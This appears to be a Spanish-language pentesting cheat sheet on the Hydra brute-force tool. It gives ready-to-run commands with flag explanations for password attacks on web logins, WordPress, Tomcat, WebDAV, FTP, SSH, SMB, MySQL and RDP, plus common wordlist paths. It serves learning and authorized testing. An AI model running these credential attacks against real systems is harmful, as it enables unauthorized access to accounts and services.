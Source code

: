 # Hydra 

Tags: #Hydra 

Es una herramienta de prueba de penetración que se utiliza para realizar ataques de fuerza bruta, por así decirlo, en servicios de autenticación remotos. Esta herramientas nos ayuda a poder encontrar passwd mediante ataques furtivos. 

- Soporte de múltiples protocolos: Hydra es compatible con una amplia gama de protocolos de autenticación incluyendo: SSH, Telnet, FTP, HTTP, POP3, SMB, etc...
* Fuerza bruta avanzada: Hydra es capas de realizar ataques de fuerza bruta avanzados, incluyendo ataques de diccionario y ataques basados en patrones. 
	* Podemos usar los diccionarios que ya viene en Parrot o Kali Linux (rockyou.txt)
* Modos de operación flexibles: Hydra admite diferentes modos de operación, incluyendo modo de ataque directo, modo de ataque de diccionario y modo de ataque híbrido.
* Capacidad de paralelización: Hydra es capas de realizar múltiples intentos de autenticación simultáneamente, lo que mejora la velocidad y la eficiencia del ataque. 

- Casos de uso:
	- Pruebas de penetración 
	- Auditoria de passwd
	- Recuperación de passwd

```powershell 
# Directorios 'passwords'
❯ /usr/share/wordlists/rockyou.txt
❯ /usr/share/Seclists/Passwords/xato-net-10-million-password-10000.txt
❯ /usr/share/Seclists/Passwords/months.txt
❯ /usr/share/Seclists/Passwords/seasons.txt
❯ /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt
❯ /usr/share/wordlists/metasploit/unix-passwords.txt
❯ /usr/share/wordlists/metasploit/common_passwords.txt

# Directorios 'Users'
❯ /usr/share/Seclists/Usernames/xato-net-10-million-usernames.txt
❯ /usr/share/metasploit-framework/data/wordlists/unix_users.txt
❯ /usr/share/wordlists/metasploit/unix_users.txt
❯ /usr/share/wordlists/metasploit/common_users.txt
```

## Fuerza bruta a una autenticación digital 

```bash 
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-get /DIR/ 

	# IP = Direccion IP del servidor que contiene la autenticacion que solicita user/passwd para acceder a la pagina
	# DIR = Ruta que contiene la autenticacion 
```

## Fuerza bruta a un CMS

```bash 
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/my_weblog/admin.php:username=^USER^&password=^PASS^:Incorrect" -t 64 -F 

	# El formulario debe de cumplir con tres variables
	# 1ra = Ruta desde la raiz hasta el admin.php
	# 2do = Podemos obtener las variables de username y password capturando el trafico con 'Burpsuite' ya que ahi es donde las variables de usuario y variables del diccionario van a ser sustituidas 
	# 3ro = Colocar el mensaje de error, lo podemos encontrar en el codigo del panel del login 'Ctrl + u'
	# IP = La direccion IP de la maquina victima sin el protocolo 'http o https'
	# F = Cuando hydra encuentre unas credenciales validas detendra el proceso y seguira con otro usuario en caso de tener mas 
```

## Hydra fuerza bruta WordPress

```python
# Para identificar los usuarios 
❯ hydra -L users.txt -p something <IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username'
❯ hydra -L users.txt -p something <IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'  # Otra forma de hacerlo
	# p = Colocaremos una passwd random, porque lo unico que queremos es el usuario


# Esto se usa para saber la password del usuario que hemos encontrado 'admin'
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt <IP> http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302' 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt <IP> http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' -t 15 
	# t = Lanzar las tareas en paralelo al mismo tiempo 


# Si al momento de hacer login en la pagina esta te muestra un mensaje de error, seria de esta manera. Donde colocaremos el mensaje de error en la sentencia. 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt <IP> http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"


# Haremos un ataque de fuerza bruta a WordPress (Todo lo anterior lo obtenemos de la misma página web en 'form action=/login.php') y colocamos todas la etiquetas 

	# l (ele) = Usuario de login
	# P = Ruta del diccionario
	# log y pwd = Lo podemos encontrar en el apartado de la pagina web 'Ctrl + u' 
	# S = Redireccionamiento con el codigo 302
	# F = Error que nos muestre el panel de autenticacion, por si no sirve con el 'S'
```

## Hydra fuerza bruta WebDAV

```python 
❯ hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt ❮IP❯ http-get /webdav/

	# webdav = Directorio de autenticacion 
	# L = Indicas un archivo que disponga de usuarios para login
	# P = Ruta del diccionario o 'archivo que contiene passwds'
```

## Tomcat 

```bash 
❯ hydra -l tomcat -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt <IP> -s 8080 http-get /manager/html/ 

	# s = Indicar el puerto 8080
	# L = /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
	# IP = Direccion IP del servidor que contiene la autenticacion que solicita user/passwd para acceder a la pagina
	# http-get = Ruta que contiene el panel de autenticacion '/manager/html/ o /host-manager/html' 
```

## Hydra fuerza bruta FTP

```python
❯ hydra -l omar -P /usr/share/wordlists/rockyou.txt ftp://❮IP❯ -t 15 # Haremos un ataque de fuerza bruta al puerto SSH, antes de completar el comando con soble TAB podemos ver la lista de diccionarios

❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ❮IP❯ ftp -t 4 -I

	# l (ele) = Usuario de login
	# L = Indicas un archivo que disponga de usuarios 
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# t = Lanzar tareas en paralelo al mismo tiempo
	# I = Saltar la espera 
```

## Hydra fuerza bruta SSH

```bash 
# Una forma de saber los usuarios dentro de la maquina por SSH es:

1. Mirando el '/etc/passwd'
2. Mirando el directorio '/home'
```

```python
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://❮IP❯ -t 4
# Haremos un ataque de fuerza bruta al puerto SSH

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# L = Ruta del diccionario o 'archivo que contiene users' para login
	# t = Lanzar tareas en paralelo al mismo tiempo
```

```python
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ❮IP❯ ssh
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://❮IP❯ -t 15 -V -s 2222 # Haremos un ataque de fuerza bruta al puerto SSH, antes de completar el comando con soble TAB podemos ver la lista de diccionarios

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# l (ele) = Usuario login que en este caso es  'root'
	# t = Lanzar tareas en paralelo al mismo tiempo
	# V = Verbosity
	# s = Port y es el puerto al que nos queremos conectar 
```

## Hydra fuerza bruta SMB / SAMBA

```python 
# Si esta  la version 'SMBv1', no podremos usar esta herramienta para Fuerza Bruta, solo con Metasploit

❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt smb://<IP>        # Fuerza bruta al usuario en el servidor SMB
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> smb

❯ hydra -L user.list -P password.list smb://<IP>        # Para ver si esos usuarios y passwd son validos en un servidor SMB

	# L = Ruta o archivo que contiene los usuarios para login
	# P = Ruta o archivo que contiene las passwd
	# l = Un usuario en especifico para login 
```

## Hydra fuerza bruta MYSQL

```python
❯ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> mysql
❯ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt mysql://<IP>

	# P = Ruta o archivo que contiene las passwd
	# l = Un usuario en especifico para login 
```

## Hydra fuerza bruta RDP

```python 
# Brute force para encontrar usuarios y sus passwd en RDP
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<IP> -s 3333           

	# L = Ruta o archivo que contiene los usuarios para login 
	# P = Ruta o archivo que contiene las passwd
	# s = Especificas el puerto, si no lo haces Hydra asumira que es el puerto 3389
```



